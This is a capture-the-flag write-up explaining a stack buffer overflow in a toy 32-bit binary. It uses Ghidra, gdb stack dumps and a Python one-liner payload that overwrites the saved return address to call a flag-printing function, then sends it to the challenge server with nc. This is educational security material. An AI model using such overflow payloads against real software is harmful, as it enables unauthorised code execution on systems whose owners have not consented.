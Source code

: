 # Bof

## Strings

It's often nice to run `strings bof` to see what's there first, giving the following strings of interest.

```
cat flag.txt
Enter the password: 
i<3sectalks
Wrong Password
Correct Password, however the get_flag function is disabled at this time.
```

## Reverse engineering

To analyze the binary, I loaded `bof` into ghidra :boom:.

Let's look at the decompilation of the `main` function. You can see:
* `scanf` reading the password into a `char[30]` but without a maximum length. Looks like we will be able to overflow this buffer, but to do what?
* If you run `bof` and enter the password `i<3sectalks`, `Correct Password` is printed, but, as the message says, `get_flag` isn't actually called.

We need the address of the `get_flag` function if we're going to try to run it. The address can be found in the Symbol Tree window under Functions. Alternatively, run `objdump -d bof | grep "<get_flag>"` to find that it's at `0x080491b0`. The `get_flag` function runs `system("cat flag.txt")`.

We want to overflow the password buffer to somehow set the instruction pointer (`eip` register) to the address of `get_flag`.
The easiest way is by experimenting with gdb. Run `gdb bof` and enter `r` to start execution.

Enter a password containing a long string of 'a's (at least 50). You should see a segmentation fault where the instruction pointer is at address `0x61616161`. The character 'a' is `0x61`, so we now know we can set the address in `eip`. The full register list can be seen with `info registers`.

Restart the program (`r` in gdb). Enter a password containing 30 dots (or any character) followed by `abcdefghijklmnopqrstuvwxyz` (in hex this would be `61 62 63 64 65...`). The segfault is now at `0x6c6b6a69` corresponding to `ijkl`. The first 8 bytes `abcdefgh` must have been used for other things; the following 4 bytes `ijkl` make up the `eip`. We now know how to set the `eip` to the address of `get_flag`.
We send a payload containing:

* 38 junk characters
* `0xb0 0x91 0x04 0x08` (the function address we want, be careful of the order)

```
python3 -c '
import os
os.write(1, b"x" * 38 + b"\xb0\x91\x04\x08")
' | ./bof
```

We now see output showing that `cat flag.txt` has been run! Just pipe the payload into `nc $HOST $PORT` instead of the local `./bof` to get the real flag.

`os.write(1, ...)` was used to write bytes to stdout (file descriptor 1) without encoding messing things up.

## How does it work? Why 38?

When we entered our payload earlier we saw "Wrong password" before the flag: we ran the rest of the code in `main` and only then jumped to `get_flag`.
To see how it works and how we could have calculated the offset of 38 without gdb, we need to consider the stack, which is defined by the `esp` and `ebp` registers.

### Where is the password buffer?

Let's get the location on the stack of the password buffer.
The instruction `8d 4d de  lea  -0x22(%ebp),%ecx` before the calls to `scanf` and `strcmp` refers to the password buffer at address `ebp-0x22`.

To verify this let's inspect the stack with gdb.
To help print a hexdump of memory in gdb, I use the following code in my `~/.gdbinit` file:

```
# Modified from https://stackoverflow.com/questions/9233095/memory-dump-formatted-like-xxd-from-gdb
define xxd
  if $argc < 2
    set $size = sizeof(*$arg0)
  else
    set $size = $arg1
  end
  dump binary memory /tmp/dump.bin $arg0 ((void *)$arg0)+$size
  eval "shell xxd -o %d /tmp/dump.bin; rm /tmp/dump.bin", ((void *)$arg0)
end
document xxd
  Dump memory with xxd command (keep the address as offset)

  xxd addr [size]
    addr -- expression resolvable as an address
    size -- size (in byte) of memory to dump
            sizeof(*addr) is used by default
end
```

This defines an `xxd` command which can print the stack so that we can see where the password ends up.
Add a breakpoint in gdb right after the `scanf` call with `b *0x8049214`. Enter the password `password123` and we'll hit the breakpoint.

```
Breakpoint 1, 0x08049214 in main ()
>>> xxd $esp $ebp-$esp  # print full stack
ffffc8b0: 2aa0 0408 d6c8 ffff 4442 faf7 ecc0 e0f7  *.......DB......
ffffc8c0: 0100 0000 0300 0000 502a e2f7 0000 0000  ........P*......
ffffc8d0: 1400 0000 94c9 7061 7373 776f 7264 3132  ......password12
ffffc8e0: 3300 faf7 ac82 0408 a992 0408 0000 0000  3...............
ffffc8f0: 0060 faf7 0000 0000                      .`......
>>> xxd $ebp-0x22 30
ffffc8d6: 7061 7373 776f 7264 3132 3300 faf7 ac82  password123.....
ffffc8e6: 0408 a992 0408 0000 0000 0060 faf7       ...........`..
```

As you can see, the null-terminated password is at `ebp-0x22`.

### Execution flow

When a function is called with the `call` instruction, the address of the next instruction (immediately after the `call`) is pushed onto the stack as the "saved eip" or "return address", and execution moves (`eip` is set) to the callee.
As soon as `main` has been called, the stack looks as follows:
```
esp-76                                                             esp                          esp+4
esp-0x4c                                                           esp                          esp+0x4
| Unused area just before stack                                    | saved eip (return address) |???
```
Then we run the following instructions according to the calling convention to initialise the stack:
```
 ; at start of function, esp points to the return address (address main was called from)
 80491d0:  55         push   %ebp       ; Push old ebp onto stack so we can get it back later (esp decremented by 4)
 80491d1:  89 e5      mov    %esp,%ebp  ; Set ebp pointer to esp (before old stack) to make new stack of size 0
 80491d3:  83 ec 48   sub    $0x48,%esp ; Reserve 72 bytes of stack space (esp decremented by another 72)
```
Now, in the main part of `main` the stack looks like:
```
esp=ebp-72         ebp-34            ebp-4               ebp       ebp+4                        ebp+8
esp=ebp-0x48       ebp-0x22          ebp-0x04            ebp       ebp+0x4                      ebp+0x8
| More stack space | password buffer | an int variable   | old ebp | saved eip (return address) |???
```
At the end of `main`, we run the following instructions:
```
 804928d:  83 c4 48   add    $0x48,%esp ; Get rid of stack of size 72 (esp incremented by 72 so esp=ebp)
 8049290:  5d         pop    %ebp       ; Pop old ebp off stack (esp incremented by 4, ebp=old ebp)
 8049291:  c3         ret               ; Set eip to current value at the address pointed to by esp
```

When the final `ret` instruction is executed, we need the return address on the stack to point to `get_flag`.

Therefore, we need a payload consisting of 38 junk characters to fill the space between `ebp-0x22` and `ebp+0x4`. After that we can put the desired `eip` and get the flag!


### More debugging

Make a payload.txt file containing the payload. Run gdb and set the breakpoint as before and let's pipe the password payload in with `r < payload.txt`.
```
Breakpoint 1, 0x08049214 in main ()
>>> info frame  # see the saved eip is for get_flag
Stack level 0, frame at 0xffffc900:
 eip = 0x8049214 in main; saved eip = 0x80491b0
 ...
>>> xxd $esp $ebp-$esp+8  # print stack and the "saved eip"
ffffc8b0: 2aa0 0408 d6c8 ffff 4442 faf7 ecc0 e0f7  *.......DB......
ffffc8c0: 0100 0000 0300 0000 502a e2f7 0000 0000  ........P*......
ffffc8d0: 1400 0000 94c9 7878 7878 7878 7878 7878  ......xxxxxxxxxx
ffffc8e0: 7878 7878 7878 7878 7878 7878 7878 7878  xxxxxxxxxxxxxxxx
ffffc8f0: 7878 7878 7878 7878 7878 7878 b091 0408  xxxxxxxxxxxx....
>>> x/a $ebp+4  # print saved eip as an address
0xffffc8fc:     0x80491b0 <get_flag>
```
